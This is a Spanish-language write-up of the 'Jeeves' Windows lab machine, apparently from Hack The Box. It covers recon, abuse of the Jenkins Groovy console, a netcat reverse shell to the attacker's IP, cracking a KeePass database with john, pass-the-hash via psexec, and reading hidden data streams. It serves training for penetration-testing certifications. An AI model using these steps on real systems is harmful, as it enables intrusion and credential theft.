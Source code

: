 # Jeeves


**Sistema Operativo**: Windows

**Dificultad**: Media

**Técnicas Vistas**:  Jenkins Exploitation (Groovy Script Console) /
RottenPotato (SeImpersonatePrivilege) /
PassTheHash (Psexec) /
Breaking KeePass /
Alternate Data Streams (ADS) /

Te prepara para las **Certificaciones**: OSCP / 
eJPT / 
eWPT / 
eCPPTv3<br>

![image](https://github.com/user-attachments/assets/f03f382b-4cd6-462b-8960-d4dfc68d021d)<br><br>



# Reconocimiento

Utilizando `nmap` escaneamos todos los puertos<br>

![image](https://github.com/user-attachments/assets/929e7743-8514-4877-a00b-43313e1e9797)

- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"<br><br>

Utilizando `gobuster` encontramos un directorio "askjeeves"

![image](https://github.com/user-attachments/assets/6f2633b4-8164-4c1b-82a6-2a7d8d554b04)

- `dir` ->  Buscar directorios 
- `-u` -> Indicar URL
- `-w` ->  Indicar diccionario que voy a utilizar
- `-t` -> Numero de hilos que voy a usar
- `-x` -> Extensiones que quiero que pruebe


# Explotación Jenkings

En `http://10.10.10.63:50000/askjeeves/script` encontramos esta consola de comados que acepta Groovy<br>

https://stackoverflow.com/questions/159148/groovy-executing-shell-commands

![image](https://github.com/user-attachments/assets/d48da70b-f566-402d-a60c-0f1098507893)<br><br>

- Transferimos el `nc.exe` y nos mandamos una consola interactiva a nuestra ip por el puerto 443 `-e cmd 10.10.14.55`
- Compartimos el archivo nc.exe `impacket-smbserver smbFolder $(pwd) -smb2support`
- Nos ponemos en escucha con `rlwrap nc -nlvp 443`<br>

![image](https://github.com/user-attachments/assets/4a788cef-d9d0-450d-90e4-2933d3f1ee94)<br><br>


# Escalamos privilegios

Encontramos la Flag User:<br>

![image](https://github.com/user-attachments/assets/2b5975ad-8aa0-4689-a1ba-ff42828c31b4)<br><br>

En `C:\Users\kohsuke\Documents` vemos  un archivo `CEH.kdbx` el cual nos transferimos a nuestra maquina de atacante.<br>

![image](https://github.com/user-attachments/assets/f3950b81-0b70-4b81-a6fd-1e7e23af35cc)<br>

- `.kdbx` -> Es una extensión Keypass que es un gestor de contraseña<br><br>


Utilizando `john` rompemos el hash<br>

![image](https://github.com/user-attachments/assets/4d0872b9-49a0-4f50-815f-3c5f86efcbc7)<br>

- `keepass2john` CEH.kdbx > hash    -> Nos da el hash para romper la contraseña
- `john -w:/usr/share/wordlists/rockyou.txt` hash   -> Rompemos el hash creado<br><br>


Hacemos un `apt install keepassxc` y luego abrimos con `keepassxc CEH.kdbx`<br>

![image](https://github.com/user-attachments/assets/82785ae2-e2e6-45ad-84b6-03369ce3128a)<br><br>


Le copiamos la contraseña a `backup stuff` y hacemos vemos la contraseña la cual podemos aplicarle un `pass-the-hash`<br>

![image](https://github.com/user-attachments/assets/f9003735-12ee-4639-bc3c-1aab19a2d7fe)<br><br>


Nos pone `Pwn3d!` la credencial es correcta<br>
![image](https://github.com/user-attachments/assets/5089f827-ee55-4f59-bf00-b506f757a740)<br><br>

Hacemos el `pass-the-hash` con `psexec.py`<br>

![image](https://github.com/user-attachments/assets/f97acbce-88d6-4411-9da2-5a9d6692c108)<br><br>


Vemos directorios ocultos `dir /r /s` y con `more < hm.txt:root.txt` lo leemos. <br>

- Flag Final<br>

![image](https://github.com/user-attachments/assets/8b870360-8f59-498b-a499-67e77999e52d)<br><br>
